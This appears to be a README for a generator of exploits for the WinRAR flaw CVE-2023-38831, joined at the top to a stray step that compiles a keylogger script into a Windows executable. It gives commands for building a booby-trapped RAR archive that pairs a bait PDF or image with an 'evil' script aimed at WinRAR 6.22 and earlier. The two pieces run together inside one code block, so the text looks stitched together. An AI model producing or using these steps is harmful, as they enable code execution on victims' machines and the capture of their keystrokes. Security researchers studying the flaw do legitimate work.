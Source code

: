 Convert  Keylog.py to Keylog.exe
```
pip3 install pyinstaller
pyinstaller --onefile keylog.py
# CVE-2023-38831 winrar exploit generator
```
## Quick poc test

Generate the default poc for test

```
python cve-2023-38831-exp-gen.py poc
or
python cve-2023-38831-exp-gen.py CLASSIFIED_DOCUMENTS.pdf script.bat  poc.rar
```

## Custom

1. Place the bait file and (evil) script file in the current directory, the bait file is recommended to be an image (.png, jpg) or a document (.pdf)
2. Run `python cve-2023-38831-exp-gen.py <bait name> <script name> <output name>` to generate your exploit


## Screenshots

Infected version: winrar <= 6.22

![demo](./demo.png)



## Reference

https://www.group-ib.com/blog/cve-2023-38831-winrar-zero-day/
